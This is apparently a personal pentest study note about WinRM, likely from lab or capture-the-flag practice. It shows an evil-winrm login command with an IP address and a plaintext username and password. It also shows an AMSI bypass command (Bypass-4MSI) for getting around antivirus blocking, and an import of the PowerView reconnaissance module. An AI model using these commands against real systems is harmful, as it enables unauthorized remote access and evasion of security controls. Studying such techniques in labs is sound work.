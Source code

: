 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Winrm]]  
___

## Description:  

5985/tcp open  wsman



Log in with valid creds:

`evil-winrm -i 10.129.217.3 -u 'tony' -p 'liltony'

Bypass-4MSI: patchs AMSI protection. To get around This script contains malicious content and has been blocked by your antivirus software error:

`Bypass-4MSI
`Import-Module C:\Users\e.black\Documents\PowerView.ps1

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (02:58 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
